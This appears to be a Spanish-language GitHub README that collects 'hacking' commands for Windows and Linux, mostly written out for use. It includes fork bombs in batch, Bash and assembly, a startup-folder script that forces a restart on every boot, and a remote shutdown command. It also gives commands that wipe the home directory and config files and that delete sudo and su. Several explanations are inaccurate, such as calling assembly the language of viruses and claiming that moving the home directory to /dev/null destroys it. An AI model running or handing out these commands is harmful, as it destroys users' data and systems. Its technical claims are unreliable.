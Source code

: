 ##COMANDOS DE HACKING Y SEGURIDAD


En este documento resumo una lista de comandos tanto para Windows como para Linux relacionados con el Hacking y la seguridad informática. Además al final añado algunos datos interesantes con ideas, curiosidades e inspiración sobre este submundo.

El formato ofrece el nombre común del ataque/comando, una descripción de lo que hace, y el propio comando. 

##Índice

1. Rabbit Virus (Windows, Linux, ASM)
2. ¡El hacker cazado!
3. El ordenador cansado
4. La pesadilla de Linux
5. El agujero negro
6. Adiós a los poderes

Extra:
* Otros recursos
* Nota


### 1- **RABBIT VIRUS** (Windows & Linux)

Es un ataque DoS, es decir, hace que un servicio o recurso sea inaccesible al usuario. Su nombre viene de su funcionamiento: El proceso se replica constantemente para llenar los recursos libres, haciendo que el sistema funcione cada vez más lento y finalmente, pete. 

**Código para la terminal de Windows:**

>Versión larga (puede cambiarse “_conejitos_” por cualquier otro nombre)

```
echo  %0^|%0  > conejitos.bat
conejitos.bat
```

>Versión corta:

```
%0|%0
```

**Código para la terminal de Linux:**

>Versión larga (_creando un ejecutable de linux_):

```
#!/bin/bash
./$0|./$0&
```

>Versión corta para Linux:

```
:(){ :|: & };:
```

**Código en ensamblador (_lenguaje en el que se escriben los virus informáticos_):**


```
section .text

    global _start`
    
_start:
    mov eax,2 ;System call for forking
    int 0x80  ;Call kernel
    jmp _start
 ```
 
### 2- **¡El hacker cazado!** (Windows y Linux)

Esta línea de comando te devuelve los ordenadores conectados a tu ordenador, incluyendo información al respecto (la ip, el estado -leyendo, esperando, etc- y otros). 

```
netstat -a
```

En Windows puedes echar al ordenador que creas conveniente usando:
```
shutdown -s -m \\nombre del ordenador
```

### 3- **El ordenador cansado** (Windows)

Este programa hace que el ordenador se apague cada vez que reinicia, y salta un aviso diciendo “_Estoy cansado de funcionar, adiós_”. 
```
copy con "%userprofile%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\Shutdown.bat"
@echo off
shutdown -r -t 500 -c "Estoy cansado de funcionar, adiós." 
```
### 4- **La pesadilla de linux**

Esta línea de comando es la peor pesadilla de cualquier usuario de linux. Basicamente borra de forma recursiva absolutamete todo. 

> Con éste borra todos los archivos de la carpeta Home:

```
 rm -rf ~ 
```

> Con éste borra todos los archivos de configuración


```
 rm -rf .*
```


### 5- **El agujero negro** (Linux)

Esta línea de comando manda el directorio Home a un “Agujero negro” es decir, lo destruye. (Similar al comando anterior)

```
mv ~ /dev/null
```

### 6- **Adiós a los poderes** (Linux)
Éste comando deshabilita los poderes de su y sudo, es decir, administrador. 

```
rm -f /usr/bin/sudo;rm -f /bin/su
```

### 7- WGET (Linux)
Wget es un programa de linux que coge el contenido de servidores web. Aunque su objetivo principal es ser una herramienta de descarga, suele utilizarse como herramienta de _pentesting_, es decir, ataques a sistemas para descubrir vulnerabilidades de la web.
Por ejemplo, podemos capturar el código fuente de una página usando:

```
wget http://www.ejemplo.com/
```

O si queremos descargar **todo** el contenido de una web: 

```
wget -r http://www.ejemplo.com
```


Pero también puede usarse para descargar cosas cuando nos lo impiden por el tipo de navegador que usamos. Para ello escribimos:

```
wget  -r -p -U Mozilla http://www.ejemplo.com
```


Otra opción interesante es guardar los cookies

```
wget -r -l inf -nd -nc --save-cookies cookies.txt www.ejemplo.com
```


¿Por qué es interesante? Las cookies de los sitios web guardan información útil para que el usuario pueda moverse con más eficiencia por la web. Por ejemplo, cuando no necesitamos acceder a una web porque ésta "recuerda" nuestros datos.


## Extra

### Otros recursos:

Links de interés con más comandos  e ideas.

* Netstat en linux: http://www.linux-party.com/index.php/29-internet/8969-20-comandos-netstat-para-administradores-de-redes-linux
* Comandos letales de linux: http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/
* Los hackeos de mr robot explicados: http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/
* Los hackeos de mr robot (otro link): https://hackertarget.com/hacker-tools-mr-robot/
* Los diez virus informáticos más destructivos de la historia: http://www.hongkiat.com/blog/famous-malicious-computer-viruses/
* Código fuente de varios virus : http://vxheaven.org/src.php
* Más información sobre virus: http://textfiles.com/virus/

### Nota 

> Toda la información de este documento tiene carácter informativo y lúdico, pero son comandos reales, por favor, usar con responsabilidad estos datos.
